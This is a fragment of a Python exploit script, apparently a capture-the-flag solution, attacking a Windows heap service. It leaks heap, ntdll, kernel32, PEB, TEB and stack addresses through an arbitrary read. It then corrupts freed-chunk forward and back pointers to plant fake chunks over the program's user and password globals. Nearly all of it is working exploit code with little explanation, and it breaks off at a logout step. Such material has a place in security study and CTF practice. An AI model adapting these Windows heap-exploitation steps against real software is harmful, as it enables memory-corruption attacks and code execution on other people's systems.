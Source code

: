 ```python
add("LFH4",0x60, 'a'*0x70)
view("LFH4")

#leak heap base
p.recvuntil("a"*0x70)
heap_base = u64(p.recv(8)) & 0xffffffffffff0000

#leak next chunk key
p.recvuntil(p64(0x90))
key = p.recvuntil("\x00")[:-1]

#leak ntdll, imagebase, kernel32 base, stack
Lock = readmem(key, heap_base+0x2c0) # _HEAP->LockVariable->Lock
ntdll = Lock - 0x163dd0
pebldr = ntdll + 0x1653c0
IMOML = readmem(key, pebldr+0x20)
imagebase = readmem(key, IMOML+0x20)
kernel32 = readmem(key, imagebase+0x3000) - 0x22460	# leak from IAT
peb = readmem(key, ntdll + 0x165328) - 0x240
teb = peb + 0x1000
stack = readmem(key,teb+0x10)

process_parameter = readmem(key, peb+0x20)
stdin = readmem(key, process_parameter+0x20)
stdout = readmem(key, process_parameter+0x28)

ret_ins = imagebase+0x1b60 
ret = stack+0x2500
while(1):
	if(readmem(key,ret) == ret_ins):
		break
	ret += 8

add("A", 0x440, "AAAA")
add("A", 0x100, "AAAA")
add("B", 0x100, "BBBB")
add("C", 0x100, "CCCC")
add("D", 0x100, "DDDD")
delete("B")
delete("D")

# leak header, fd, bk, chunk address
view('A')
p.recvuntil("Data:")
p.recv(0x108)
header = u64(p.recv(8))
B_fd = u64(p.recv(8))# B_fd = D chunk address
B_bk = u64(p.recv(8))
p.recv(0x210)
D_fd = u64(p.recv(8))
D_bk = u64(p.recv(8))# D_bk = B chunk address

user = imagebase + 0x5620
pwd = imagebase + 0x5648

# we make heap 
# B -> fake_chunk(pwd) -> fake_chunk(user) -> D

# overwrite B_fd 
# B -> fake_chunk(pwd)
add("A", 0x100, "A"*0x100 + p64(0) + p64(header) + p64(pwd + 0x10))

# logout
```